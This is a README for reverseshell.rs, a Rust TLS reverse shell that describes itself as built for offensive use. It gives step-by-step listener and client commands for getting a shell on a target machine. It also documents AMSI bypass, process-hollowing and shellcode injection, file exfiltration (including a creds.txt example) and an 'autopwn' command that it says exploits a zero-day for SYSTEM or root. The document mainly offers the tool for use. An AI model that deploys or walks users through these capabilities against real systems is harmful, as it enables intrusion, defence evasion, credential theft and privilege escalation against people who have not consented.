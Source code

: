 # reverseshell.rs

reverseshell.rs is a TLS over TCP reverse shell developped in Rust with client and server embedded in the same binary. This project has been mainly started to learn Rust with a tool that could help me in my work, and the code quality could be greatly improved.

Client and server are both cross-platform and work on Windows and Linux systems.

For Windows client, additonal features have been integrated for offensive purpose, and they will be improved in futur commits.

For this purpose, I have chosen to mainly use the official [windows_sys](https://docs.rs/windows-sys/latest/windows_sys/) crate to interact with the Win32API and the [ntapi](https://docs.rs/ntapi/latest/ntapi/) crate for the NTAPI.

The project is thought in module. This means that you can easily add or remove features to and from it, and you can also easily take parts from it to put them in your own project.

## Features

For the moment, the following features are present:

- Semi-interactive reverse shell via TLS over TCP
- File upload and download between server and client
- Start a PowerShell interactive session with the ability to patch the AMSI in memory
- Loading features :
  - Load and execute a PE in the client memory
  - Load and execute a PE in a remote process memory
  - Load and execute a shellcode in a remote process memory
- Autopwn the client machine and elevate the privileges to SYSTEM or root by exploiting a 0day in `tcpdump`

## How to

### Setup

I have set a `dummy` domain for hostname validation in the `connect()` function for both clients. If you use a signed certificate for a real server, you can change it and remove the unsecure functions that remove hostname and certs validations.

By default, only the `error`, `warn` and `info` logs are displayed. If you also need the `debug` ones (can be usefull for the loading features), you can change this in `main.rs` by modifying `::log::set_max_level(LevelFilter::Info);` to `::log::set_max_level(LevelFilter::Debug);`.

A new self-signed TLS certificate can be obtained like this :

```bash
openssl req -newkey rsa:2048 -nodes -keyout private.key -x509 -days 365 -out certificate.cer
openssl pkcs12 -export -out certificate.pfx -inkey private.key -in certificate.cr
```

### Compilation

The project can be compiled with `cargo build --release` on Windows or Linux and the binary will be present in `target/release/`, or the target name if a target is specified.

Tu compile for a different target than your current OS you can use, for example, `cargo build --release --target x86_64-unknown-linux-gnu` (be sure to use the appropriate toolchain and to have all the required dependencies).

The project compilation has been tested with the following Rust toolchains :

- `stable-x86_64-pc-windows-gnu`
- `stable-x86_64-pc-windows-msvc`
- `stable-x86_64-unknown-linux-gnu`

If you compile the project for a Linux target, the "Windows features" will be removed at compilation.
Should run on all Windows and Linux versions (I have hope).

### Usage

```plain
Usage: rs-shell.exe [OPTIONS] --side <side> --ip <ip> --port <port>

Options:
  -s, --side <side>            launch the client or the listener [possible values: c, l]
  -i, --ip <ip>                IP address to bind to for the listener, or to connect to for the clien
  -p, --port <port>            port address to bind to for the listener, or to connect to for the client
      --cert-path <cert_path>  path of the TLS certificate (in PFX or PKCS12 format) for the server
      --cert-pass <cert_pass>  password of the TLS certificate for the server
  -h, --help                   Print help
  -V, --version                Print version

In a session, type 'help' for advanced integrated commands
```

To obtain a session, just launch the binary in listener mode on your machine with `rs-shell.exe -s l -i IP_to_bind_to -p port_to_bind_to --cert-path certificate_path --cert-pass certificate_password`. For example `rs-shell.exe -s l -i 0.0.0.0 -p 4545 --cert-path certificate.pfx --cert-pass "Password"`.

Then, on the target machine launch the client to connect back to your server with `rs-shell.exe -s c -i IP_to_connect_to -p port_to_connect_to`. For example `rs-shell.exe -s c --ip 192.168.1.10 --port 4545`.

### Advanced commands

```plain
> help
[+] Custom integrated commands :

    [+] Loading commands
    > load C:\path\to\PE_to_load
        load a PE file in the client process memory and executes it. This could kill the reverse shell !
    > load -h C:\path\to\PE_to_load C:\path\to\PE_to_hollow
        load a PE file in a remote process memory with process hollowing and executes it
    > load -s C:\path\to\shellcode.bin C:\path\to\PE_to_execute
        load a shellcode in a remote process memory and start a new thread with it

    [+] Bypass commands
    > powpow
        start a new interactive PowerShell session with the AMSI patched in memory

    [+] Network commands
    > download C:\file\to\download C:\local\path
        download a file from the remote system
    > upload C:\local\file\to\upload C:\remote\path\to\write
        upload a file to the remote system

    [+] Special commands
    > autopwn
        escalate to the SYSTEM or root account from any local account by exploiting a zero day
```

The `load` commands permit to load and execute directly in memory:

- `load` loads and execute a PE in the client memory. This will kill the reverse shell, but that could be usefull to launch a C2 implant in the current process for example
- `load -h` loads and execute a PE in a created remote process memory with process hollowing. You don't lose your reverse shell session, but the process hollowing will be potentially flag by the AV or the EDR
- `load -s` loads and execute a shellcode from a `.bin` file in a created remote process memory. You don't lose your reverse shell session, and you don't have to drop the bin file on the target, since the shellcode will be transfered to the target via the TCP tunnel

For example : `> load -h C:\Windows\System32\calc.exe C:\Windows\System32\cmd.exe`. This will start a `cmd.exe` process with hollowing, load a `calc.exe` image in the process memory, and then resume the thread to execute the calc.

`powpow` starts an interactive PowerShell session with a PowerShell process where the AMSI `ScanBuffer` function has been patched in memory. This feature is not particularly opsec.

`download` permits to download a file from the client to the machine where the listener is running. For example `download C:\Users\Administrator\Desktop\creds.txt ./creds.txt`.

`upload` permits to upload a file on the client machine. For example `upload ./pwn.exe C:\Temp\pwn.exe`.

`autopwn` permits to escalate to the **SYSTEM or root account** with a 0day exploitation. Just type `autopwn` and answer the question.

## Todo

- [ ] Move all the Win32API related commands to the NTAPI with indirect syscalls
- [ ] Implement other injection techniques
- [ ] Implement a port forwarding solution
- [ ] Find a way to create a fully proxy aware client
- [ ] Implement a reverse socks proxy feature

## Acknowledgements

- [OffensiveRust](https://github.com/winsecurity/Offensive-Rust) by [winsecurity](https://github.com/winsecurity). This project would never have existed without him. Many of functions, structures, and tricks present in `reverseshell.rs` come from this project
- [OffensiveRust](https://github.com/trickster0/OffensiveRust) by [trickster0](https://github.com/trickster0)
- Multiple projects by [memN0ps](https://github.com/memN0ps)
- [RustPacker](https://github.com/Nariod/RustPacker) by [Nariod](https://github.com/Nariod)
- Nik Brendler's blog posts about pipe communication between process in Rust. [Part 1](https://www.nikbrendler.com/rust-process-communication/) and [Part 2](https://www.nikbrendler.com/rust-process-communication-part-2/)
